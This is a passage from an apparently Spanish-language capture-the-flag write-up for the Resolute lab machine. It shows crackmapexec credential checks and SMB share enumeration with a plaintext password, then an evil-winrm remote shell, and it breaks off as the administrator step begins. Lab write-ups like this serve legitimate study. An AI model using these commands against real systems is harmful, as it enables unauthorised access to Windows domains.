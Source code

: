 ```bash
```

- Lo que podemos hacer es probar las credenciales y ver los recursos compartidos.

```bash
➜  content crackmapexec smb 10.129.96.155 -u ryan -p Serv3r4Admin4cc123!
SMB         10.129.96.155   445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:True)
SMB         10.129.96.155   445    RESOLUTE         [+] megabank.local\ryan:Serv3r4Admin4cc123! (Pwn3d!)
➜  content crackmapexec smb 10.129.96.155 -u ryan -p Serv3r4Admin4cc123! --shares
SMB         10.129.96.155   445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:True)
SMB         10.129.96.155   445    RESOLUTE         [+] megabank.local\ryan:Serv3r4Admin4cc123! (Pwn3d!)
SMB         10.129.96.155   445    RESOLUTE         [+] Enumerated shares
SMB         10.129.96.155   445    RESOLUTE         Share           Permissions     Remark
SMB         10.129.96.155   445    RESOLUTE         -----           -----------     ------
SMB         10.129.96.155   445    RESOLUTE         ADMIN$                          Remote Admin
SMB         10.129.96.155   445    RESOLUTE         C$                              Default share
SMB         10.129.96.155   445    RESOLUTE         IPC$                            Remote IPC
SMB         10.129.96.155   445    RESOLUTE         NETLOGON        READ            Logon server share
SMB         10.129.96.155   445    RESOLUTE         SYSVOL          READ            Logon server share
```

- Y bueno ya nos devuelve un `(Pwn3d!)` lo que significa que podemos conectar usando `evil-winrm`.

```bash
➜  content evil-winrm -i 10.129.96.155 -u ryan -p Serv3r4Admin4cc123!

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\ryan\Documents>
```

## Shell as Administrator

- Pues bueno el único usuario que nos queda es el usuario **Administrator**.

- En el escritorio nos dejaron una nota.

```bash
*Evil-WinRM* PS C:\Users\ryan\Desktop> dir


    Directory: C:\Users\ryan\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        12/3/2019   7:34 AM            155 note.txt


*Evil-WinRM* PS C:\Users\ryan\Desktop> type note.txt
Email to team:

```